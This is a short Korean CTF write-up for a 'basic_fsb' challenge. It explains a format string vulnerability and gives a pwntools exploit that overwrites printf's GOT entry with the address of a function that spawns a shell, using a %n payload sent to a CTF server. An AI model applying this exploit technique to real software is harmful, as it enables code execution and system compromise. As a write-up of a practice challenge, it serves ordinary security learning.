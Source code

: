 ## 함수 분석 / 취약점 발견
기초적인 FSB이다. print의 인자로부터 8byte 떨어진 곳에 배열이 존재한다.
```
froggagul@ubuntu:~/CyKor/week6/problemset/basic_fsb$ ./basic_fsb
input : aaaa%2$p
aaaa0x61616161
```
flag 함수에서 system("/bin/sh")를 실행해주므로, printf의 got를 flag의 주소로 덮으면 된다.
## 구현
1. printf의 got를 flag의 주소로 덮자. got의 주소의 크기 자체가 크지 않으므로 한번에 진행한다.
```python
from pwn import *

# p = process('./basic_fsb')
p = remote('ctf.j0n9hyun.xyz', 3002)
p.recvuntil('input : ')

flag_addr = 0x80485b4
printf_got = 0x804a00c

log.info(str(flag_addr - 4).encode())

payload = p32(printf_got)
payload += b'%'+ str(flag_addr - 4).encode() + b'x%n'

p.sendline(payload)

p.interactive()
```
